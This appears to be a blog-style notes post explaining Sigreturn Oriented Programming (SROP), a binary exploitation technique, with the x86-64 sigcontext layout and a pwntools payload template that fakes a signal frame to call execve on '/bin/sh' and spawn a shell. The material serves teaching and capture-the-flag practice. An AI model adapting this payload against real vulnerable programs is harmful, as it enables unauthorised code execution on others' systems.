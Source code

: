 ```yaml
---
layout: post
title: Sigreturn Oriented Programming
description:
date: 2025-10-13
categories:
  - pwn
  - notes
  - srop
tags:
  - srop
---
```


# Sigreturn Oriented Programming. 

`SROP` (Sigreturn Oriented Programming) is binary exploitation technique that leverages the signal handling mechanisms in `POSIX` systems to gain control over CPU registers. This is achieved by crafting a fake signal frame on the stack and then invoking the `sigreturn` system call. 

## The signal handling mechanism 

`SROP` exploits the process used by `POSIX` systems to handle signals. This process works as follows: 
1. When a signal occurs, context switch is performed.
2. The context switch saves the current state of execution by pushing all CPU registers and additional data onto the stack.
3. Once the signal has been handled, the `sigreturn` system call is invoked, which restores the CPU register values from the data saved on the stack.

Here are the structures involved:

-  `struct sigcontext`
	- This structure is a component of the `sigframe`. It stores the values of the CPU registers and their flag.
	- The structure definition and layout depend on specific architecture and operating system. 

on `x86-64`, the structure contains:

```c
struct sigcontext {
    uint64_t r8, r9, r10, r11, r12, r13, r14, r15;
    uint64_t rdi, rsi, rbp, rbx, rdx, rax, rcx, rsp;
    uint64_t rip, eflags;
    uint16_t cs, gs, fs;
    uint64_t err, trapno, oldmask, cr2;
    void *fpstate;
    uint64_t reserved[8];
};
```

## Exploitation

`SROP` involves two main stages once you have control of the return address
1. Triggering the `sigreturn` system call.
2. Providing a fake signal frame.

Payload example

```python
# stage1 trigger the sigreturn syscall
stage1 = flat(
	cyclic(offset_to_rip), # padding to return addres
	pop_rax, # pop rax; ret 
	0xf, # sigreturn number in x64 or 0x77 for x86
	syscall, # syscall gadget
)
# stage to fake signal frame
# pwntools makes it easy to setup the signal frame
stage2 = SigreturnFrame()
stage2.rax = 59 # for execve
stage2.rdi = binsh # address of "/bin/sh"
stage2.rsi = 0
stage2.rdx = 0
stage2.rip = syscall # syscall gadget

payload = flat(
	stage1,
	stage2
)
```

The above payload will get you a shell. 
### When to use SROP

- When you have limited gadgets.
- Can control stack. (Buffer overflow)
- When you have `pop rax` and `syscall` gadgets
- Need to set up multiple registers


